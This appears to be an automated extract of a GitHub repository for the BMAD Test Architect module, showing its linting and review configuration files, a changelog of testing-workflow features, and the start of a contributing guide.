









# KNOWLEDGE EXTRACT: github.com_bmad-code-org_bmad-method-test-architecture-enter_ece167a7
> **Extracted on:** 2026-04-01 10:37:14
> **Source:** D:/LongLeo/AI OS CORP/AI OS/core/security/QUARANTINE/KI-BATCH-20260331205007520989/github.com_bmad-code-org_bmad-method-test-architecture-enter_ece167a7

---

## File: `.coderabbit.yaml`
```yaml
# yaml-language-server: $schema=https://coderabbit.ai/integrations/schema.v2.json

language: "en-US"
early_access: true
reviews:
  profile: chill
  high_level_summary: false # don't post summary until explicitly invoked
  request_changes_workflow: false
  review_status: false
  commit_status: false
  walkthrough: false
  poem: false
  auto_review:
    enabled: true
    drafts: false # Don't review drafts automatically
    auto_incremental_review: false # always review the whole PR, not just new commits
    base_branches:
      - main
  path_filters:
    - "!**/node_modules/**"
  path_instructions:
    - path: "**/*"
      instructions: |
        Focus on inconsistencies, contradictions, edge cases and serious issues.
        Avoid commenting on minor issues such as linting, formatting and style issues.
        When providing code suggestions, use GitHub's suggestion format:
        ```suggestion
        <code changes>
        ```
    - path: "**/*.js"
      instructions: |
        CLI tooling code. Check for: missing error handling on fs operations,
        path.join vs string concatenation, proper cleanup in error paths.
        Flag any process.exit() without error message.
chat:
  auto_reply: true # Response to mentions in comments, a la @coderabbit review
issue_enrichment:
  auto_enrich:
    enabled: false # don't auto-comment on issues

```

## File: `.gitignore`
```
# Dependencies
node_modules/
pnpm-lock.yaml
bun.lock
deno.lock
pnpm-workspace.yaml

test-output/*
coverage/

# Logs
logs/
*.log
npm-debug.log*

# Build output
build/*.txt

# Environment variables
.env

# System files
.DS_Store
Thumbs.db

# Development tools and configs
.prettierrc

# AI assistant files
CLAUDE.md
.ai/*
cursor
.gemini
.mcp.json
CLAUDE.local.md
.serena/
.claude/settings.local.json

z*/

_bmad
_bmad-output
.clinerules
.augment
.crush
.cursor
.iflow
.opencode
.qwen
.rovodev
.kilocodemodes
.claude
.codex
.github/chatmodes
.github/agents
.agent
.agentvibes
.kiro
.roo
.trae
.windsurf

# Astro / Documentation Build
website/.astro/
website/dist/
build/
```

## File: `.markdownlint-cli2.yaml`
```yaml
# markdownlint-cli2 configuration
# https://github.com/DavidAnson/markdownlint-cli2

ignores:
  - node_modules/**
  - website/node_modules/**
  - test/fixtures/**
  - CODE_OF_CONDUCT.md
  - _bmad/**
  - _bmad*/**
  - .*/**
  - z*/**

# Rule configuration
config:
  # Disable all rules by default
  default: false

  # Heading levels should increment by one (h1 -> h2 -> h3, not h1 -> h3)
  MD001: true

  # Duplicate sibling headings (same heading text at same level under same parent)
  MD024:
    siblings_only: true

  # Trailing commas in headings (likely typos)
  MD026:
    punctuation: ","

  # Bare URLs - may not render as links in all parsers
  # Should use <url> or [text](url) format
  MD034: true

  # Spaces inside emphasis markers - breaks rendering
  # e.g., "* text *" won't render as emphasis
  MD037: true
```

## File: `.npmrc`
```
registry=https://registry.npmjs.org
```

## File: `.nvmrc`
```
22
```

## File: `.prettierignore`
```
# Test fixtures with intentionally broken/malformed files
test/fixtures/**

# Contributor Covenant (external standard)
CODE_OF_CONDUCT.md

# BMAD runtime folders (user-specific, not in repo)
_bmad/
_bmad*/
```

## File: `CHANGELOG.md`
```markdown
# Changelog

All notable changes to the Test Architect (TEA) module will be documented in this file.

The format is based on [Keep a Changelog](https://keepachangelog.com/en/1.0.0/),
and this project adheres to [Semantic Versioning](https://semver.org/spec/v2.0.0.html).

## [1.2.4] - 2026-02-22

### Changed

- **All workflow descriptions optimized** for skill selection and display
  - Descriptions shortened and made more concise for better UI rendering
  - Added explicit trigger phrases (e.g., "Use when user says 'lets write acceptance tests'") to improve skill detection
  - Affected workflows: `atdd`, `automate`, `ci`, `framework`, `nfr-assess`, `teach-me-testing`, `test-design`, `test-review`, `trace`
  - Removed redundant `web_bundle: false` from workflow.yaml files

## [Unreleased]

### Added

- **Playwright CLI Integration**: New `playwright-cli.md` knowledge fragment (42 total)
- **Browser Automation Config**: New `tea_browser_automation` config with 4 modes: `auto`, `cli`, `mcp`, `none`
- **Auto Mode Heuristic**: Smart CLI/MCP selection per workflow action with fallback
- **How-To Guide**: `brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md`
- **Knowledge Test Script**: `test:knowledge` npm script added to test chain

### Changed

- **Breaking**: `tea_use_mcp_enhancements` (boolean) replaced by `tea_browser_automation` (string)
  - `true` -> `"auto"` (recommended), `false` -> `"none"`
- All workflow preflight steps updated to read `tea_browser_automation`
- All browser-touching workflow steps updated with CLI/MCP/auto branching
- Subagent context passes `browser_automation` instead of `use_mcp_enhancements`
- Module subheader updated to reference Playwright CLI
- **Breaking**: Orchestration terminology standardized to `subagent` / `agent-team` (removed `subprocess` wording)
  - Renamed worker step files from `*-subprocess-*` to `*-subagent-*` in `automate`, `atdd`, `nfr-assess`, and `test-review`
  - Updated orchestration mode resolution examples to use `subagent` only
  - Renamed architecture docs: `subprocess-architecture.md` -> `subagent-architecture.md`, `subprocess-implementation-status.md` -> `subagent-implementation-status.md`
  - Updated docs navigation, troubleshooting references, and workflow/resource indexes to new names
  - Updated workflow contract labels/examples from `subprocess` to `subagent` (for example `subagent_execution`, `subagentType`)

### Deprecated

- `tea_use_mcp_enhancements` flag — use `tea_browser_automation` instead
- `enable-tea-mcp-enhancements.md` guide — redirects to `configure-browser-automation.md`

---

## [1.0.0] - 2026-01-XX (Upcoming)

### 🎉 TEA Module Independence Release

TEA (Test Engineering Architect) is now a standalone BMAD module, extracted from the core BMAD Method repository. This release marks TEA's independence as a dedicated test strategy and quality engineering module.

### Added

#### Core Infrastructure

- **Standalone Module**: TEA now installable independently via `npx bmad-method install`
- **Module Namespace**: All commands now use `/bmad:tea:*` namespace
- **Agent Persona**: Murat (Master Test Architect and Quality Advisor)
- **Configuration System**: 6 module variables with installation prompts
  - `test_artifacts` - Base output folder for test artifacts
  - `tea_use_playwright_utils` - Playwright Utils integration toggle
  - `tea_use_mcp_enhancements` - Playwright MCP enhancements toggle
  - `test_framework` - Default framework preference (future)
  - `risk_threshold` - Risk cutoff for mandatory testing (future)
  - Output folder configurations: `test_design_output`, `test_review_output`, `trace_output`

#### Workflows (8 Total)

All workflows implement the **trivariate step pattern** (Create/Edit/Validate):

1. **Framework Setup (`TF` / `/bmad:tea:framework`)**
   - Scaffold Playwright/Cypress test frameworks
   - Configure project structure and dependencies
   - Setup test configuration and helpers

2. **CI/CD Integration (`CI` / `/bmad:tea:ci`)**
   - Generate GitHub Actions and GitLab CI pipelines
   - Configure quality gates and test execution
   - Setup test reporting and artifact management

3. **Test Design (`TD` / `/bmad:tea:test-design`)**
   - System-level and epic-level test planning
   - Risk-based test strategy with P0-P3 prioritization
   - Test coverage planning and traceability mapping

4. **ATDD (`AT` / `/bmad:tea:atdd`)**
   - Generate failing acceptance tests (TDD red phase)
   - **Subagent Architecture**: Parallel API + E2E test generation
   - Acceptance criteria validation checklist

5. **Test Automation (`TA` / `/bmad:tea:automate`)**
   - Expand automation coverage systematically
   - **Subagent Architecture**: Parallel API + E2E test generation
   - Coverage gap analysis and prioritization

6. **Test Review (`RV` / `/bmad:tea:test-review`)**
   - Comprehensive test quality audit (0-100 scoring)
   - **Subagent Architecture**: Parallel evaluation across 5 quality dimensions
     - Determinism
     - Isolation
     - Maintainability
     - Coverage
     - Performance
   - Actionable improvement recommendations

7. **Requirements Tracing (`TR` / `/bmad:tea:trace`)**
   - Map requirements to test coverage
   - Gap analysis and missing test identification
   - Go/No-Go release gate decision

8. **NFR Assessment (`NR` / `/bmad:tea:nfr-assess`)**
   - Non-functional requirements evaluation
   - **Subagent Architecture**: Parallel assessment across 4 NFR domains
     - Security
     - Performance
     - Reliability
     - Scalability
   - Evidence-based scoring with recommendations

#### Subagent Architecture (Phase 5)

- **19 Subagent Step Files** for parallel execution:
  - `automate`: 3 subagent files (2 parallel + aggregate)
  - `atdd`: 3 subagent files (2 parallel + aggregate)
  - `test-review`: 6 subagent files (5 parallel + aggregate)
  - `nfr-assess`: 5 subagent files (4 parallel + aggregate)
  - `trace`: Two-phase separation (coverage → gate decision)
- **Temp File Outputs**: Each subagent writes to `/tmp/bmad-tea-*` files
- **Aggregation Step**: Consolidates subagent results into final output
- **Documentation**: Complete subagent architecture documentation in `brain/knowledge/docs_legacy/explanation/`

#### Knowledge Base System

- **35 Knowledge Fragments** organized by category:
  - Architecture & Fixtures (5 fragments)
  - Data & Setup (3 fragments)
  - Network & Reliability (5 fragments)
  - Test Execution & CI (4 fragments)
  - Quality & Standards (4 fragments)
  - Risk & Gates (3 fragments)
  - Selectors & Timing (2 fragments)
  - Feature Flags & Testing Patterns (2 fragments)
  - Playwright-Utils Integration (6 fragments)
- **Context Engineering**: Dynamic fragment loading per workflow
- **CSV-Based Index**: `src/agents/bmad-tea/resources/tea-index.csv` for fragment management
- **Consistency**: Ensures standardized outputs across workflows

#### Documentation

- **Diataxis-Compliant Structure**: 29 markdown files across 4 categories
  - **Tutorials**: TEA Lite 30-minute quickstart
  - **How-To Guides**: 9 workflow guides + 4 customization guides
  - **Explanation**: 11 concept docs (engagement models, risk-based testing, knowledge base system, etc.)
  - **Reference**: 3 reference docs (commands, configuration, knowledge base index)
  - **Glossary**: Comprehensive terminology reference
- **Documentation Site**: Ready for deployment to `test-architect.bmad-method.org`
- **Build Tools**: Documentation build pipeline, link validation, and auto-fix tools
- **LLM Discovery**: `llms.txt` and `llms-full.txt` for AI agent consumption

#### Engagement Models

- **No TEA**: Continue with existing testing approach
- **TEA Solo**: Standalone use on non-BMAD projects
- **TEA Lite**: Fast onboarding with `automate` workflow only
- **Integrated**: Full TEA integration with BMAD Method (Phases 3-4 + release gates)
- **Enterprise**: Complete quality governance with all 9 workflows

#### Testing & Quality

- **85 Automated Tests**: Complete test coverage
  - 52 agent schema validation tests
  - 33 installation component tests
- **Pre-commit Hooks**: Automated quality checks
  - ESLint + Prettier formatting
  - Markdownlint validation (204 files)
  - Documentation link validation
  - Schema validation
- **Lint-Staged**: Auto-fix on commit for JS, YAML, JSON, and Markdown

### Changed

#### Breaking Changes

- **Command Namespace**: Changed from `/bmad:bmm:tea:*` to `/bmad:tea:*`
  - Old: `/bmad:bmm:tea:test-design`
  - New: `/bmad:tea:test-design`
- **Module Installation**: Now requires separate installation step
  - TEA no longer included by default with BMAD Method
  - Install via: `npx bmad-method install` → Select "Test Architect (TEA)"
- **File Paths**: Knowledge base moved from `src/bmm/testarch/` to `src/testarch/`
- **Agent ID**: Changed from `_bmad/bmm/tea` to `_bmad/tea/`
- **Configuration**: Module-specific variables now in `src/module.yaml` instead of BMM config

#### Improvements

- **Step File Architecture**: All workflows converted to trivariate pattern
  - `steps-c/` (Create mode) - 5-7 steps per workflow
  - `steps-e/` (Edit mode) - 2 steps per workflow
  - `steps-v/` (Validate mode) - 1 step per workflow
- **Validation Reports**: Comprehensive validation with checklist scoring
- **Documentation Links**: All internal links validated and fixed (309 → 0 broken links)
- **Subagent Optimization**: Parallel execution for faster workflow completion

### Fixed

- All documentation links updated from `/brain/knowledge/docs_legacy/tea/` to `/brain/knowledge/docs_legacy/`
- Knowledge base path references updated from BMM structure to standalone
- Agent schema validation for module independence
- Pre-commit hook compatibility with documentation build process

### Documentation

- Website: [test-architect.bmad-method.org](https://test-architect.bmad-method.org) (upcoming)
- Repository: [github.com/bmad-code-org/bmad-method-test-architecture-enterprise](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise)
- Full Documentation: Available in `llms-full.txt` (~445K chars, ~111K tokens)

### Technical Details

- **Lines of Code**: ~20K lines (workflows, knowledge base, documentation)
- **Step Files**: 134 total step files across 9 workflows
- **Knowledge Fragments**: 34 reusable testing patterns
- **Documentation Files**: 204 markdown files
- **Test Coverage**: 85 automated tests (100% passing)
- **Supported Frameworks**: Playwright, Cypress
- **Node Version**: >=20.0.0

---

## Version History

- **1.0.0** (2026-01-XX) - TEA Module Independence Release
  - Standalone module extraction from BMAD Method
  - 9 workflows with subagent architecture
  - 34 knowledge base fragments
  - Complete documentation suite

---
```

## File: `CONTRIBUTING.md`
```markdown
# Contributing to BMad

Thank you for considering contributing to the BMad project! We believe in **Human Amplification, Not Replacement** - bringing out the best thinking in both humans and AI through guided collaboration.

💬 **Discord Community**: Join our [Discord server](https://discord.gg/gk8jAdXWmj) for real-time discussions:

- **#bmad-development** - Technical discussions and development questions
- **#suggestions-feedback** - Feature ideas and suggestions
- **#report-bugs-and-issues** - Bug reports and issue discussions

## Our Philosophy

### BMad Core™: Universal Foundation

BMad Core empowers humans and AI agents working together in true partnership across any domain through our **C.O.R.E. Framework** (Collaboration Optimized Reflection Engine):

- **Collaboration**: Human-AI partnership where both contribute unique strengths
- **Optimized**: The collaborative process refined for maximum effectiveness
- **Reflection**: Guided thinking that helps discover better solutions and insights
- **Engine**: The powerful framework that orchestrates specialized agents and workflows

### BMad Method™: Agile AI-Driven Development

The BMad Method is the flagship bmad module for agile AI-driven software development. It emphasizes thorough planning and solid architectural foundations to provide detailed context for developer agents, mirroring real-world agile best practices.

### Core Principles

